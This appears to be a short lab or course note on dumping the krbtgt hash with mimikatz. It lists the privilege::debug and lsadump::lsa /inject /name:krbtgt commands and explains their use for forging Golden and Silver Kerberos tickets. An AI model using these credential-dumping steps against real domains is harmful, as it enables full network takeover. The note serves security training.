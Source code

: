 ```yaml
---
title: 8.1 Dump the krbtgt hash
updated: 2023-04-02T11:09:48.0000000+04:00
created: 2023-04-02T10:59:47.0000000+04:00
---
```


AM
﻿1.) cd downloads && mimikatz.exe - navigate to the directory mimikatz is in and run mimikatz

2.) privilege::debug - ensure this outputs \[privilege '20' ok\]

﻿3.) lsadump::lsa /inject /name:krbtgt

- This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

![image1](image1-147.png)
